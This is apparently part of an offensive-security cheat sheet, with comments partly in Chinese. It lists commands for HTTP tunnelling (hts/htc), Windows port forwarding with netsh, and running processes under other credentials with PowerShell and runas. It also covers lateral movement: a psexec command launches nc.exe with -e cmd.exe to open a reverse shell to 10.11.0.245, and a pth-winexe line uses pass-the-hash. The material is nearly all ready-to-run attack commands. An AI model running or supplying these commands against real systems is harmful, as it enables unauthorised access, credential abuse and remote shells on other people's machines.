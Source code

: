```text
# 服务器-打开端口80。将所有传入流量重定向到localhost:80到localhost:22
hts -F localhost:22 80

# 客户端-打开端口8080。重定向所有传入流量到localhost:8080到192.168.1.15:80
htc -F 8080 192.168.1.15:80

# 客户端-连接到本地主机:8080 ->得到隧道到192.168.1.15:80 ->得到重定向到192.168.1.15:22
ssh localhost -p 8080
```

**Netsh—Windows端口转发**

```text
# requires admin
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```

**RunAs /启动进程As**

**PowerShell**

```text
# Requires PSRemoting
$username = 'Administrator';$password = '1234test';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;Invoke-Command -Credential $credential -ComputerName COMPUTER_NAME -Command { whoami }

# without PSRemoting
cmd> powershell Start-Process cmd.exe -Credential (New-Object System.Management.Automation.PSCredential 'username', (ConvertTo-SecureString 'password' -AsPlainText -Force))

# without PS Remoting, with arguments
cmd> powershell -command "start-process cmd.exe -argumentlist '/c calc' -Credential (New-Object System.Management.Automation.PSCredential 'username',(ConvertTo-SecureString 'password' -AsPlainText -Force))"
```

**CMD**

```text
# 需要交互式控制台
runas /user:userName cmd.exe
```

**PsExec**

```text
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```

**Pth-WinExe**

```text
pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe
```
